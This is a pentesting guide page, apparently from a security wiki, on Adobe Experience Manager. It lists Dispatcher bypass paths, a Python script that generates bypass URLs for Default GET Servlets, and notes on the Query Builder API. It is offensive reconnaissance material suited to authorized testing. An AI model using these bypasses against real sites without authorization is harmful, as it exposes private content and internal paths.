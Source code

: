 ```yaml
---
title: Adobe Experience Manager (AEM)
description: Adobe Experience Manager (AEM) is an enterprise-grade CMS and is quite popular among high-profile companies.
badge: Java
---
```



## Good resources

<iframe class="w-full" height="350" src="https://www.youtube-nocookie.com/embed/EQNBQCQMouk" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

### Writeups

 - [Remote Code Execution (RCE) on Microsoft's 'signout.live.com'](http://www.kernelpicnic.net/2016/07/24/Microsoft-signout.live.com-Remote-Code-Execution-Write-Up.html)

## The tech

Adobe Experience Manager (aka AEM), recently rebranded to Adobe Experience Cloud, is a quite popular enterprise-grace CMS among high-profile companies. 

Under the hood **AEM** is using [Apache Sling](https://sling.apache.org/) wich at the same time is a RESTful web-application framework for [Apache Jackrabbit](https://jackrabbit.apache.org/). On top of that sits the [Dispatcher](https://experienceleague.adobe.com/docs/experience-manager-dispatcher/using/dispatcher.html?lang=en), wich is intended to pass requests around and is commonly the only protection for AEM sites (Appart from the classic Waf you find in front of anything). This tech stack ends up creating what I personally understand as a huge mess that allows crazy bypassess such as:

 - `/admin` --> 404
 - `/admin.html/.json` --> 200 

This is due to an impropper configuration of the **Dispatcher**, wich is a very common scenario as configuring it is not preciesly a piece of cake:
 - [Adobe's official documentation on Configuring Dispatcher](https://experienceleague.adobe.com/docs/experience-manager-dispatcher/using/configuring/dispatcher-configuration.html?lang=en)


### AEM Common Deploy Models


![AEM Basic and Standard Deployment Model](/aem_deploy_model_basic.jpg)



### Apache Sling & Apache JackRabbit



#### JCR Nodes





### AEM Dispatcher

It actually is a module for the Web server (Apache, IIS...). It provides _security_ (acts more or less like a waf) and _caching layers_. Both are important functionalities to have in mind while pentesting AEM as cache can sometimes fool us away from valid bypasses to this security layer. Two things usually happen here:

 1. In theroy, AEM Dispatcher **offers an extra layer of security** to the AEM infraestructure, but in practice this will, very likely, be the only thing in front of it (**_if any_**). Which is a huge problem as it is relatively straigth-forward to find bypassess for routes for the Dispatcher due to the `.extenxion` mechanics of Apache Sling.
 2. Mantaining every component on _Publish_ updated an securely configured is hard, specially if you think that attackers have no way of accesing them.

With this in mind, the idea is clear, try to find super juicy hidden gems behind the Dispatcher and _profit!_






## Fingerprinting



## Discovery




## Exploitation


### Dispatcher bypasses

This bypasses will help you abuse the other exploitaition techniques exposed here so keep them in mind.

#### Appending stuff (CVE-2016-0957)

Here 

```txt[common_bypasses.txt]
/a.css
/a.html
/a.ico
/%0aa.css
/a.1.json
```

#### Using multiple slashes
Using multiple slashes can get you some bypasses. For example:
 - `///etc.json` instead of `/etc.json`
 - `///bin///querybuilder.json` instead of `///bin///querybuilder.json`


### Default GET Servlets
Huge profit right here; you can stop the `gobuster` you have running in the background already, as this is even going to list even that juicy `/bin/S3cr3t/RANDOM_STR/NO_WAY_THIS_IS_IN_A_WORDLIST` path. This is a feature in Apache Sling you can find more info about in:
 - [Rendering Content - Default GET Servlets](https://sling.apache.org/documentation/bundles/rendering-content-default-get-servlets.html)


So, the idea behind this is that you can retrieve JCR nodes with its props (size, authors/usernames, dates, filenames, child node names...). This can work on any path for the AEM site and you can build _queries_ against them like this:

![How to get JCR nodes](/aem_defaultgetservlet_selection_guide.png)


To _build_ such URLs you can use the following params:

 - **Selectors:**
    - `tidy`: _pretty-prints_ json
    - `infinity`
    - `children`: _Huge profit!_
    - `childrenlist`: _Huge profit!_
    - `ext`
    - A numeric value: `-1`, `0`, `1...99999`
 - **Formats:**
    - `json`
    - `txt`
    - `xml`
    - `res`: Very useful to retrieve files (More info at the [Sling documentation](https://sling.apache.org/documentation/bundles/rendering-content-default-get-servlets.html#streamrendererservlet))

You can use the following script to generate routes to test if the Default Get Servlets are in use:

```python[getservlet_paths.py]
import itertools
import string
import random

CACHE_BUSTER_LEN = 3
JUICY_NODES = ['/', '/etc', '{{ extra-paths /bin }}', '/var', '/apps', '/home']
JUICY_NODES = [p for pair in map(lambda x: (x, x.replace('/', '///')), JUICY_NODES) for p in pair]

GETSERVLET = itertools.product(JUICY_NODES, ('', '.children'),('.json', '.1.json', '....4.2.1....json', '.json?{0}.css', '.json?{0}.ico', '.json?{0}.html','.json/{0}.css', '.json/{0}.html', '.json/{0}.png', '.json/{0}.ico','.json;%0a{0}.css', '.json;%0a{0}.png', '.json;%0a{0}.html', '.json;%0a{0}.ico'))

for path in ['{0}{1}{2}'.format(p1, p2, p3.format('{0}')) for p1, p2, p3 in GETSERVLET]:
    print(path.format(''.join(random.choice(string.ascii_letters) for _ in range(CACHE_BUSTER_LEN))))
```

You can execute the script from above as a _"one-liner"_ directly pasting it in `python -c ""` (Nasty but works).



### Query Builder API

It generally sits at `/bin/querybuilder.json`

You can find more information on the following resources:
 - [Adobe - Query Builder API](https://experienceleague.adobe.com/docs/experience-manager-65/developing/platform/query-builder/querybuilder-api.html?lang=en)




## Local testing environment

If you manage to get the required installation `.jar` and license `license.properties` files from Adobe, the following repos might help you out:

 - [AEM & Docker getting started guide](https://github.com/remcorakers/aem-docker-getting-started)
 - [Creating AEM in Docker](https://github.com/PrabhuVignesh/aem-in-docker)